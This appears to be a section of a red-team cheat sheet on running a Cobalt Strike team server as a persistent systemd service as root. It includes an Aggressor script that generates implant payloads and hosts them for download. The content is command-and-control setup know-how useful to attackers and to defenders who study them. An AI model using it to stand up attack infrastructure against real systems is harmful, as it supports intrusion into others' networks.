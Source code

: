 ### Teamserver service
#### Create service
```
sudo vim /etc/systemd/system/csteamserver.service

[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver <IP> <PASSWORD> <C2 PROFILE>

[Install]
WantedBy=multi-user.target
```

#### Reload service
```
sudo systemctl daemon-reload
sudo systemctl status csteamserver.service
```

#### Start service
```
sudo systemctl start csteamserver.service
sudo systemctl status csteamserver.service
```

#### Enable service
```
sudo systemctl enable teamserver.service
```

### Persistend hosted files
- Hosted files are gone on restart. A solution is to use `agscript` utility with the `artifact_payload` and `site_host` functions.
```
agscript <HOST> <PORT> <USER> <PASSWORD> <path/to/script.cna>

vim host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("<LISTENER NAME>", "<PAYLOAD TYPE>", "<PAYLOAD ARCHITECTURE>");

    # Host payload
    site_host("<LOCAL IP>", <PORT>, "<URI>", $payload, "<MIME TYPE>", "<DESCRIPTION>", <HTTPS [true|false]>);
}
```
